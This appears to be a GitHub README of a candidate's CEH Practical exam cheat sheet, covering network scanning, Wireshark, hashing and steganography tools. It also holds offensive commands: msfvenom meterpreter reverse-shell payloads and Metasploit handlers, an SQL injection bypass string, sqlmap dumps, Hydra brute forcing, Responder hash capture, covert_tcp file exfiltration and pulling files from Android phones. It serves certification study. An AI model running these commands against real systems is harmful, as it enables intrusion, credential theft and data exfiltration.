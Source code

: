 <img src="/IMG/CEH-Practical-Logo.jpg">

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour Proctored exam.  

> Just a typical CTF Player/Hacker going back to Basics 💻

> My Personal Notes that I used on the Exam as a Cheatsheet

# Network Hacking
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```

</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
</details>
<details>
  <summary>Wireshark</summary>
  
  ## Wireshark
  
  * Wireshark provides the feature of reassembling a stream of plain text protocol packets into a human-readable format
  
  ```shell
    select_packet > follow > TCP Stream
  ```
  
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS
  * go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  
  ```
</details>

<details>
  <summary>Covert TCP</summary>
  
  ## Covert TCP
  
  * [covert_TCP](Covert_TCP.c) 
  * In this we have to use Covert TCP technique to analyses the pcapng file.
  * Traverse though each line in Wireshark and concentrate on Identification field, keep an eye on Hex value and ANSI value.
  * Compile the Code
  ```console
cc -o covert_tcp covert_tcp.c
  ```
  * Reciever Machine(Client_IP)
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
  ```
  * Sender Machine(Attacker_IP)
  * Create A Message file that need to be transferred Eg: secret.txt
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
  ```
 
 * Secret message sent using Covert_TCP and it is captured using Wireshark - [Pcap_of_Covert](Covert_TCP_Capture.pcapng)
 * The Secret text is -> Hello  This 123 -

  <img src="/IMG/CovertWireshark.jpg" />

</details>

<details>
  <summary> LLMNR/NBT</summary>
  
  ##  LLMNR/NBT-NS Poisoning

* [Responder](https://github.com/lgandx/Responder) - rogue authentication server to capture hashes.

* This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present.
  
* In Parrot/Kali OS, 

```console
responder -I eth0  
```

* In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
* To crack that hash, use JohntheRipper

```console
john SMBfilename  
```
</details>

<details>
  <summary>Common Ports</summary>
  
 ## Common Port

* 21        - FTP
* 22        - SSH
* 23        - TELNET
* 3306      - MYSQL
* 389,3389  - RDP

</details>

<details>
  <summary>Port Login</summary>

  ## Port Login
    
  * FTP Login
    
  ```console
    ftp x.x.x.x
  ```
    
  * SSH Login  
  ```console
    ssh username@x.x.x.x
  ```
    
  * TELNET Login
  ```console
    telnet x.x.x.x
  ```
   
 </details>
</details>

# Web Hacking
<details>
  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
  
### DSSS
  
  * Damn Small SQLi Scanner ([DSSS](https://github.com/stamparm/DSSS)) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)

  * As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.

  ```console
  python3 dsss.py -u "url" --cookie="cookie"
  ```
  <img src="/IMG/DSSS/dsss1.jpg" />
  
  * Open the binded URL
  
  <img src="/IMG/DSSS/dsss2.jpg" />

### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```
  </details>



</details>

# System Hacking

<details>
  <summary>System</summary>
  
  ## System 

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

# Android Hacking
<details>
  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>

# Password Cracking



<details>
  <summary>Wpscan</summary>
  
## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt
```
</details>

<details>
  <summary>Hydra</summary>

## Hydra

### SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221
```
* FTP Get command
* Used to download the specific file from FTP to attacker or local machine
```console
get flag.txt ~/Desktop/filepath/flag.txt
get flag.txt .
```
### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```  
</details>
  
# Steganography
  <details>
    <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```
<img src="/IMG/Snow.png"/>

</details>
<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  <img src = "/IMG/Cryptool/CT.png"/>
  
  * To Encrypt
  
  <img src = "/IMG/Cryptool/CT5.png"/>
  <img src = "/IMG/Cryptool/CT6.png"/>
  
  * Use Key 05 
  
  <img src = "/IMG/Cryptool/CT7.png"/>
  <img src = "/IMG/Cryptool/CT8.png"/>
  <img src = "/IMG/Cryptool/CT9.png"/>
  <img src = "/IMG/Cryptool/CT10.png"/>
  <img src = "/IMG/Cryptool/CT11.png"/>
  
  * To Decrypt
  
  <img src = "/IMG/Cryptool/CT12.png"/>
  <img src = "/IMG/Cryptool/CT13.png"/>
  <img src = "/IMG/Cryptool/CT14.png"/>
  <img src = "/IMG/Cryptool/CT15.png"/>
  <img src = "/IMG/Cryptool/CT16.png"/>
 </details>
  
 <details>
   <summary>HashCalc</summary>
   
   ## HashCalc
    
   * HashCalc Interface.
   <img src = "/IMG/HashCalc/Hcal1.png"/>

   * Create a text file.
   <img src = "/IMG/HashCalc/Hcal2.png"/>
   
   * Choose text file.
   <img src = "/IMG/HashCalc/Hcal3.png"/>
   
   * Hash Value of text file.
   <img src = "/IMG/HashCalc/Hcal4.png"/>
   
   * Modify the text inside the file. 
   <img src = "/IMG/HashCalc/Hcal5.png"/>
   
   * Compare the hash, It will vary.
   <img src = "/IMG/HashCalc/Hcal6.png"/>
   
 </details>

  <details>
    <summary>HashMyFile</summary>
 
  ## HashMyFile  
    
  * HashMyFile Application
  <img src = "/IMG/HashMyFile/HMF1.png"/>
    
  * add folder to Hash the file presented in Folder  
  <img src = "/IMG/HashMyFile/HMF2.png"/>  
  <img src = "/IMG/HashMyFile/HMF3.png"/>

  * After Hash the file
  <img src = "/IMG/HashMyFile/HMF4.png"/>
    
  * Add More Hashing Format
  <img src = "/IMG/HashMyFile/HMF5.png"/>
</details>
  
  <details>
    <summary>MD5 Calculator</summary>
  
  * Create a text file contains "Hello" and save it, Right click the file to compare hash. 
  <img src = "/IMG/MD5 Calc/MD5Calc1.png"/>  
  
  * MD5 Hash of text file
  <img src = "/IMG/MD5 Calc/MD5Calc2.png"/> 
  
  <img src = "/IMG/MD5 Calc/MD5Calc3.png"/>  
  
  <img src = "/IMG/MD5 Calc/MD5Calc4.png"/>  
  
</details>

<details>
    <summary>VeraCrypt</summary>
    
  <img src = "/IMG/VeraCrypt/VC1.png"/>
  <img src = "/IMG/VeraCrypt/VC2.png"/>
  <img src = "/IMG/VeraCrypt/VC3.png"/>
  <img src = "/IMG/VeraCrypt/VC4.png"/>
  <img src = "/IMG/VeraCrypt/VC5.png"/>
  <img src = "/IMG/VeraCrypt/VC6.png"/>
  <img src = "/IMG/VeraCrypt/VC7.png"/>
  <img src = "/IMG/VeraCrypt/VC8.png"/>
  <img src = "/IMG/VeraCrypt/VC9.png"/>
  <img src = "/IMG/VeraCrypt/VC10.png"/>
  <img src = "/IMG/VeraCrypt/VC11.png"/>
  <img src = "/IMG/VeraCrypt/VC12.png"/>
  <img src = "/IMG/VeraCrypt/VC13.png"/>
  <img src = "/IMG/VeraCrypt/VC14.png"/>
  <img src = "/IMG/VeraCrypt/VC15.png"/>
  <img src = "/IMG/VeraCrypt/VC16.png"/>
  <img src = "/IMG/VeraCrypt/VC17.png"/>
  <img src = "/IMG/VeraCrypt/VC18.png"/>
  
</details> 

<details>
    <summary>BCTextEncoded</summary>
    
  <img src = "/IMG/BCTextEncoded/BCTE1.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE2.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE3.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE4.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE5.png"/>

  <img src = "/IMG/BCTextEncoded/BCTE6.png"/>


</details>

# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

  ## Course
  
* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [Wireshark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  

<details>
  <summary>Useful Links</summary>
  
## Links
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>

Final Words: Grab a cup of Tea ☕ and GRIND!!!

  <img src = "/IMG/motivation.jpg"/>
